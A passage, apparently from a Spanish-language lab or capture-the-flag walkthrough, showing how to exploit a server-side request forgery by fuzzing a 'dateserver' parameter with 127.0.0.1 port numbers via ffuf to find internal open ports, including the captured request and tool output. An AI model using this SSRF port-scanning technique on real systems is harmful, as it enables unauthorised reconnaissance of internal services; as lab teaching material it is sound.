 
En el archivo de petición (reqports.txt) identificaremos el parámetro vulnerable como FUZZ, que será el punto donde inyectar los números de puerto para la detección. Generamos una wordlist con los puertos comunes usando:

```
seq 1 65535 > ports.txt
```

```
┌──(root㉿nptg)-[/ssrf]
└─# cat reqports.txt 
POST /index.php HTTP/1.1
Host: 10.129.178.161
Content-Length: 46
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.129.178.161
Referer: http://10.129.178.161/
Accept-Encoding: gzip, deflate, br
Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
Connection: keep-alive

dateserver=http://127.0.0.1:FUZZ&date=2024-01-18
```

Posteriormente, ejecutamos el fuzzing usando ports.txt para reemplazar FUZZ y analizar las respuestas. Durante la fase de filtrado observamos que las respuestas no útiles comparten un patrón: contienen exactamente 16 palabras, por lo que podemos excluir esas respuestas para centrarnos en las que realmente indican servicios abiertos. Al finalizar el escaneo y aplicar el filtro, obtendremos tres puertos abiertos identificados en el sistema objetivo.

```
┌──(root㉿nptg)-[/ssrf]
└─# ffuf -w /usr/share/wordlists/ports.txt -u http://10.129.178.161/ -request reqports.txt -t 200 -fw 16

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.178.161/
 :: Wordlist         : FUZZ: /usr/share/wordlists/ports.txt
 :: Header           : Origin: http://10.129.178.161
 :: Header           : Referer: http://10.129.178.161/
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Accept-Language: es,es-ES;q=0.9,en;q=0.8,zh-TW;q=0.7,zh-CN;q=0.6,zh;q=0.5
 :: Header           : Connection: keep-alive
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept: */*
 :: Header           : Host: 10.129.178.161
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-18
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
```